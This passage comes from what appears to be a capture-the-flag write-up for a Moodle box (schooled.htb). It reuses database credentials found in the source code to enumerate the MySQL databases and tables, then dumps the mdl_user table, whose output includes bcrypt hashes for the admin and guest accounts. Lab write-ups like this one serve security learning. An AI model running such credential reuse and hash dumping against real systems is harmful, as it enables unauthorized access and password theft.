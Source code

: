 Which contains the DB credentials: ```moodle:PlaybookMaster2020```, Let's try to enumerate the DB:
```console
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'show databases;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Database
information_schema
moodle
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; show tables;'
mysql: [Warning] Using a password on the command line interface can be insecure.
Tables_in_moodle
mdl_analytics_indicator_calc
mdl_analytics_models
mdl_analytics_models_log
mdl_analytics_predict_samples
mdl_analytics_prediction_actions
mdl_analytics_predictions
mdl_analytics_train_samples
mdl_analytics_used_analysables
mdl_analytics_used_files
mdl_assign
mdl_assign_grades
mdl_assign_overrides
mdl_assign_plugin_config
mdl_assign_submission
mdl_assign_user_flags
mdl_assign_user_mapping
mdl_assignfeedback_comments
mdl_assignfeedback_editpdf_annot
mdl_assignfeedback_editpdf_cmnt
mdl_assignfeedback_editpdf_queue
....
mdl_user
....
```

By selecting from ```mdl_usr``` table we can get hashed password of ```Jamie``` user with ```admin role```:
```console
$ /usr/local/bin/mysql -u moodle -pPlaybookMaster2020 -e 'use moodle; select * from mdl_user'
mysql: [Warning] Using a password on the command line interface can be insecure.
id	auth	confirmed	policyagreed	deleted	suspended	mnethostid	username	password	idnumber	firstname	lastname	email	emailstop	icq	skype	yahoo	aim	msn	phone1	phone2	institution	department	addresscity	country	lang	calendartype	theme	timezone	firstaccess	lastaccess	lastlogin	currentlogin	lastip	secret	picture	url	description	descriptionformat	mailformat	maildigest	maildisplay	autosubscribe	trackforums	timecreated	timemodified	trustbitmask	imagealt	lastnamephonetic	firstnamephonetic	middlename	alternatename	moodlenetprofile
1	manual	1	0	0	0	1	guest	$2y$10$u8DkSWjhZnQhBk1a0g1ug.x79uhkx/sa7euU8TI4FX4TCaXK6uQk2		Guest user	 	root@localhost	0		en	gregorian		99	0	0	0	0			0	This user is a special user that allows read-only access to some courses.	1	1	02	1	0	0	1608320077	0	NULL	NULL	NULL	NULL	NULL	NULL
2	manual	1	0	0	0	1	admin	$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW		Jamie	Borham	jamie@staff.schooled.htb	0	Bournemouth	GB	en	gregorian		99	1608320129	1608729680	1608681411	1608729680	192.168.1.14		0			1	1	00	1	0	0	1608389236	0			

...

```
